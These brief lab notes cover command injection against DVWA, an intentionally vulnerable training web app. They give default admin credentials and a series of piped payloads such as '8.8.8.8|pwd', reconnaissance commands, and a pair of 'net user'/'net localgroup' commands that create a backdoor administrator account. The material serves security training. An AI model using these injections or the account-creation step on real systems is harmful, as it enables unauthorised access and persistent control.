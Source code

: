 admin / password
DVWA Security > Low > Submit

**Command Execution**
8.8.8.8|pwd (last command will show the result on the screen)

##############################################################

| hostname
| whoami
| tasklist
| net user
| net user hacker hacker /add then | net localgroup Administrators hacker /add